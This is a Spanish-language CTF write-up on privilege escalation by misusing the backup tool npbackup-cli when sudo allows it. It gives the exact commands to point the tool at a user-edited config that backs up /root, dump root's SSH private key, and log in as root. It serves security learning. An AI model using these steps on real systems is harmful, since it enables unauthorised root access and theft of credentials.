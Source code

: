 # Escalada de Privilegios abusando de `npbackup-cli`

## Descripción

Algunos binarios relacionados con **software de backup** ejecutados con privilegios elevados (`sudo`) permiten especificar un archivo de configuración externo.
Si este archivo define **qué rutas deben respaldarse**, un usuario sin privilegios puede forzar la inclusión de rutas sensibles como `/root` o `/etc`, consiguiendo así leer información crítica y escalar privilegios.

Este patrón de vulnerabilidad se conoce como **Backup Software Misuse**.

---

## Caso práctico: `npbackup-cli`

En un CTF nos encontramos el binario:

```bash
sudo -l
    (ALL) NOPASSWD: /usr/local/bin/npbackup-cli
```

Al revisar el script vemos que internamente carga un archivo de configuración en formato YAML.

---

## Explotación

### 1. Copiar y modificar configuración

Copiamos la configuración por defecto a un directorio donde tengamos permisos de escritura (ej: `/tmp`):

```bash
cp /etc/npbackup.conf /tmp/npbackup.conf
```

Editamos el archivo y añadimos rutas sensibles. Ejemplo:

```yaml
backup_opts:
  paths:
    - /root
```

---

### 2. Generar backup como root

Ejecutamos el backup forzado con nuestro archivo de configuración:

```bash
sudo /usr/local/bin/npbackup-cli -c /tmp/npbackup.conf -b -f
```

---

### 3. Volcar archivos críticos

Ahora podemos usar la opción `--dump` para extraer ficheros del backup, con permisos root:

```bash
sudo /usr/local/bin/npbackup-cli -c /tmp/npbackup.conf -f --dump /root/.ssh/id_rsa
```

---

### 4. Acceso como root

Una vez extraída la clave privada de root, ajustamos permisos y nos conectamos:

```bash
chmod 600 id_rsa
ssh -i id_rsa root@localhost
```